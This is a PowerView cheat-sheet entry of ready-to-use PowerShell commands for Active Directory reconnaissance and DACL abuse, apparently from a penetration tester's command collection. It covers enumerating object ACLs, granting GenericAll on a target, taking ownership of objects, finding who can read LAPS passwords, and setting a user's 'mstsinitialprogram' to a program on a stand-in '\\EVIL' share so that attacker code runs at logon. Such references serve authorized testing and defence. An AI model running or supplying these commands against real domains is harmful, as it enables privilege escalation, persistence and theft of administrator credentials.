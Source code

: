 # powerview

% ad, windows, powerview
#plateform/windows #target/remote  #cat/RECON 


## Get ACLs of an object 
```powershell
Get-ObjectAcl -Identity <user> -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_}
```

## Find all domain user DACL
```powershell
Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

## Add GenericAll to target for user
#cat/ATTACK/DACL-ABUSE
```powershell
Add-DomainObjectAcl -TargetIdentity <ldap_path> -PrincipalIdentity <current_user> -Rights All
```

## Set the owner 
#cat/ATTACK/DACL-ABUSE
```powershell
Set-DomainObjectOwner -Identity <target_object> -OwnerIdentity <user>
```

## set the specified property for the given user identity
@{'mstsinitialprogram'='\\EVIL\program.exe'}
#cat/ATTACK/DACL-ABUSE
```powershell
Set-DomainObject <user> -Set @{'<property>'='<value>'} -Verbose
```

## Enumerate Principals that can read LAPS
#cat/RECON/DACL
```powershell
Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | Where-Object {($_.ObjectAceType -like 'ms-Mcs-AdmPwd') -and ($_.ActiveDirectoryRights -match 'ReadProperty')} | ForEach-Object { $_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier); $_ }
```